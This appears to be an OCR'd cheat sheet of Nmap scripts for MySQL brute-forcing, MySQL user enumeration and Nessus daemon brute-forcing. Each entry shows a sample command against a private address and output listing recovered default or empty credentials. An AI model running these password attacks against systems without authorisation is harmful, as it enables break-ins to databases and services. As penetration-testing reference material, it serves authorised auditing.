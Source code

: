      root@hostname: ~/ # nmap --script=mysql-brute 192.168.1.12

     |PORT     STATE SERVICE REASON
     |3306/tcp open  mysql
     | mysql-brute:
     |   Accounts
     |     root:root - Valid credentials



### MySQL-enum                              
_Performs valid-user enumeration against MySQL server using a bug discovered and published by Kingcope (http://seclists_org/fulldisclosure/2012/Dec/9)_
     
     root@hostname: ~/ # nmap --script=mysql-enum 192.168.1.12

     |PORT     STATE SERVICE REASON
     |3306/tcp open  mysql   syn-ack
     | mysql-enum:
     |   Accounts
     |     admin:<empty> - Valid credentials
     |     test:<empty> - Valid credentials
     |     test_mysql:<empty> - Valid credentials
     |   Statistics
     |_    Performed 11 guesses in 1 seconds, average tps: 11




### Nessus - Brute-Force                             
_Performs Brute-Force password auditing against a Nessus vulnerability scanning daemon using the NTP 1_2 protocol_
     
     root@hostname: ~/ # 

     |PORT     STATE SERVICE
     |1241/tcp open  nessus
     | nessus-brute:
     |   Accounts
     |     nessus:nessus - Valid credentials
     |   Statistics
     |_    Performed 35 guesses in 75 seconds, average tps: 0
